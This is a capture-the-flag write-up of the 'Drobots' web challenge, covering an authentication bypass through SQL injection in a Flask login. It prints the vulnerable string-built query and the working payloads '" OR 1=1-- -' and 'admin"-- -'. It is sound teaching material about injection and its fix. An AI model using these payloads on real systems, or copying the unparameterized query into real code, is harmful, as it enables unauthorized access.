 # Drobots

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213226.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213450.png)

In here, we see there's a **login page**.

When I deal with a login page, I'll always try doing SQL injection to bypass the authentication.

**Some simple `' OR 1=1-- -` may do the job:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213938.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318213943.png)

Ah Nope.

**Let's read the [source code](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/Web/Drobots/web_drobots.zip)!**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Drobots)-[2023.03.18|21:39:56(HKT)]
└> unzip web_drobots.zip 
Archive:  web_drobots.zip
   creating: web_drobots/
   creating: web_drobots/config/
  inflating: web_drobots/config/supervisord.conf  
  inflating: web_drobots/Dockerfile  
  inflating: web_drobots/build-docker.sh  
 extracting: web_drobots/flag.txt    
   creating: web_drobots/challenge/
  inflating: web_drobots/challenge/run.py  
   creating: web_drobots/challenge/application/
   creating: web_drobots/challenge/application/blueprints/
  inflating: web_drobots/challenge/application/blueprints/routes.py  
  inflating: web_drobots/challenge/application/config.py  
  inflating: web_drobots/challenge/application/util.py  
  inflating: web_drobots/challenge/application/database.py  
   creating: web_drobots/challenge/application/static/
   creating: web_drobots/challenge/application/static/css/
  inflating: web_drobots/challenge/application/static/css/bootstrap.min.css  
  inflating: web_drobots/challenge/application/static/css/style.css  
   creating: web_drobots/challenge/application/static/images/
  inflating: web_drobots/challenge/application/static/images/logo.png  
   creating: web_drobots/challenge/application/static/js/
  inflating: web_drobots/challenge/application/static/js/script.js  
  inflating: web_drobots/challenge/application/static/js/jquery.js  
   creating: web_drobots/challenge/application/templates/
  inflating: web_drobots/challenge/application/templates/home.html  
  inflating: web_drobots/challenge/application/templates/login.html  
  inflating: web_drobots/challenge/application/main.py  
  inflating: web_drobots/entrypoint.sh
```

**In `application/blueprints/routes.py`, we see some interesting stuff:**
```py
from flask import Blueprint, render_template, request, session, redirect
from application.database import login
from application.util import response, isAuthenticated
[...]
flag = open('/flag.txt').read()
[...]
@web.route('/home')
@isAuthenticated
def home():
    return render_template('home.html', flag=flag)
```

**The `/home` route (endpoint) will return the flag**. However, we need to be **authenticated**!

```py
@api.route('/login', methods=['POST'])
def apiLogin():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login(username, password)
    
    if user:
        session['auth'] = user
        return response('Success'), 200
        
    return response('Invalid credentials!'), 403
```

**In the `/login` route, we see it's using a fuction called `login()`, which is from `application.database`:**
```py
from colorama import Cursor
from application.util import createJWT
from flask_mysqldb import MySQL

mysql = MySQL()

def query_db(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

And oh! There's a Python comment: "We should update our code base and use techniques like parameterization to avoid SQL Injection".

As you can see, the SQL query is directly concatenated ***without using prepare statement (parameterization), or at least sanitized.***

## Exploitation

**That being said, we can bypass the authentication by using the following payload in the username field:**
```sql
" OR 1=1-- -
```

- The `"` is to escape the query string. So that the injected SQL query will become:

**Username: `anything"`:**
```sql
SELECT password FROM users WHERE username = "anything"" AND password = "password"
```

Then, the `OR 1=1` will always evaluate to `True`, which means we pass the check.

Next, the `-- -` is to comment out the rest of the SQL query.

**Hence, the injected SQL query will become:**
```sql
SELECT password FROM users WHERE username = "" OR 1=1-- -" AND password = "{password}"
```

However, **instead of using `OR 1=1`**, I wanna try something different:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215244.png)

> From [Tib3rius tweet](https://twitter.com/0xTib3rius/status/1624819441044185088).

That being said, if we know the correct username, we can login as that user without using the stupid `OR 1=1`.

**In the `entrypoint.sh`, we found the MySQL schema:**
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}

mysql -u root << EOF
CREATE DATABASE drobots;
CREATE TABLE drobots.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);
INSERT INTO drobots.users (username, password) VALUES ('admin', '$(genPass)');
CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON drobots.users TO 'user'@'localhost';
FLUSH PRIVILEGES;
EOF
```

In here, we see there's a user called `admin`!!

**That being said, we can bypass the authentication and login as admin!**
```sql
admin"-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215601.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230318215610.png)

Nice! We successfully bypassed it and got the flag!

- **Flag: `HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}`**

## Conclusion

What we've learned:

1. Authentication Bypass Via SQL Injection